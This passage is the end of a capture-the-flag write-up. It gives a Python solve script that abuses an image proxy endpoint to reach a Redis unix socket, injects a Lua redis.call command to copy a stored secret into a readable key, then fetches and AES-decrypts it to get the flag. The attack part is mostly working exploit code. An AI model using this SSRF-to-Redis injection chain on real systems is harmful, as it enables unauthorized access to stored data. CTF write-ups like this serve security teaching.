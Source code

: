 Now, we just need to create the whole script to get the encrypted data and decrypt it based on the certifier and the base key we got previously.

{% code title="solve.py" %}
```python
import requests
import random
import base64
from urllib.parse import quote
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

HOST = "http://localhost"
# HOST = "http://3.105.27.130:8000"

certifier = "Ak4gHIGV"
encryption_key = "0cccaf41450b4c0ca95f1a9c"

# Get voted_for
# Save voted_for to an img
IMG_NUMBER = random.randint(100,500)
TEMPLATE = "/api/img/http://backend.wbc/unix:/redis/redis.sock:\"--[[/]] {}\" 0"

cmd = f"redis.call('SET', 'img:{IMG_NUMBER}', redis.call('HGET', 'wbc', 'voted_for'))"
payload = TEMPLATE.format(quote(cmd))

requests.request("EVAL", url=HOST+payload)

# Exfiltrate img
res = requests.get(HOST+f"/api/img/{IMG_NUMBER}")
voted_for = res.text

# Decrypt
key = certifier + encryption_key
key = key.encode()
data = base64.b64decode(voted_for)
iv = data[:16]
ct = data[16:]
cipher = AES.new(key,  AES.MODE_CBC, iv)
padded = cipher.decrypt(ct)
flag = unpad(padded, AES.block_size)

print(f"{flag=}")
```
{% endcode %}

And with that we (finally) got the flag!

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

